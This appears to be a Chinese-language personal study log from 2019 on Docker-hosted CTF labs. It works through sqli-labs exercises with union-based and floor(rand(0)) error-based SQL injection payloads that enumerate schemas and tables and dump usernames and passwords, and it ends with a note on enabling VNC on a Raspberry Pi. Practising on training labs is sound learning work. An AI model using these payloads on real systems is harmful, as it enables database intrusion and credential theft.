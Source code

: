 # Day3+4  
## 2019/07/10+11
### docker部署lnmp
`sudo docker search ctftraining`  
`sudo docker pull ctftraining/base_image_nginx_mysql_php_73`  
`sudo docker run -dt --name lnmp -p 236:80 --rm ctftraining/base_image_nginx_mysql_php_73`  
嗯  

### sqli-labs 1  
payload:`?id=1' order by 3 --+`   
order by查列（还是字段数），`order by 4`则回显不正常  

payload:`?id=999' union select 1,2,3 --+`  

，发现页面先输出了2和3，说明页面有2个显示位   

然后利用sql查询语句依次爆破出数据库内的数据库名，表名，列名，字段信息  

payload:`?id=999' union select 1,(select_group_concat(schema_name) from information_schema.schemata),3 --+`  

loginname的地方就会显现数据库名  

其中就有一个叫做security的库  

然后把3所在的地方改成`(select group_concat(table_name) from information_schema.tables where table_schema='security')` 

用于查询security内的所有表名  

完整payload:id=999`union select 1,(select group_concat(schema_name) from information_schema.schemata),(select group_concat(table_name) from information_schema.tables where table_schema='security') --+`   

payload:`select group_concat(column_name) from information_schema.columns where table_name='users'   `


爆出users表下所有列   

payload:  

`select group_concat(password) from security.users`    

`select group_concat(username) from security.users`  

查询密码跟用户名  

`group_concat(table_name) from information_schema.tables where table_schema=database()%23`  

查表名    

### sqli-labs3  

payload:`?id=777')`  

用括号使语句闭合以后再进行注入 


### sqli-labs5

盲注第一篇，琢磨了许久……

主要来自：https://www.freebuf.com/column/158705.html



总之这道题既可以报错盲注又可以布尔盲注

接下来会用到的几个函数

`Count()`计算总数

`Concat()`连接字符串

`Floor()`向下取整数

`Rand()`产生0～1的随机数

`rand(0)`序列是011011  


--------
  
  
`select count(*),floor(rand(0)*2)x from information_schema.character_sets group by x;`  
上面的这条SQL将报错: Duplicate entry '1' for key 'group_key'
如下图

![img1]()

原因：  

rand(0)是把0作为生成随机数的种子。首先明确一点，无论查询多少次，无论在哪台MySQL Server上查询，连续rand(0)生成的序列是固定的。

![img2]()

![img3]()


--------

姿势如下：


`union select 1,count(*),concat(version(),floor(rand(0)*2))x from information_schema.columns group by x;–+`

version()可以替换为需要查询的信息。  

简化语句：  

①`union select 1,2,count(*)  from information_schema.columns group by concat(version(),floor(rand(0)*2));–+`

搞到库名  
![img4]()  

②`Union select 1,count(*),concat((select table_name from information_schema.tables where table_schema='security' limit 3,1),0x26,floor(rand(0)*2))x from information_schema.columns group by x;--+`  
③`Union select 1,count(*),concat((select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 1,1),0x26,floor(rand(0)*2))x from information_schema.columns group by x;--+`

搞到表名+列名(跟之前的是一样的，名字是username和password)  

盗过来的脚本最好在linux上跑  



### VNC远程控制树莓派  
`sudo raspi-confi`  

选择`5 Interfacing Options`  

把vnc打开即可远程连接  




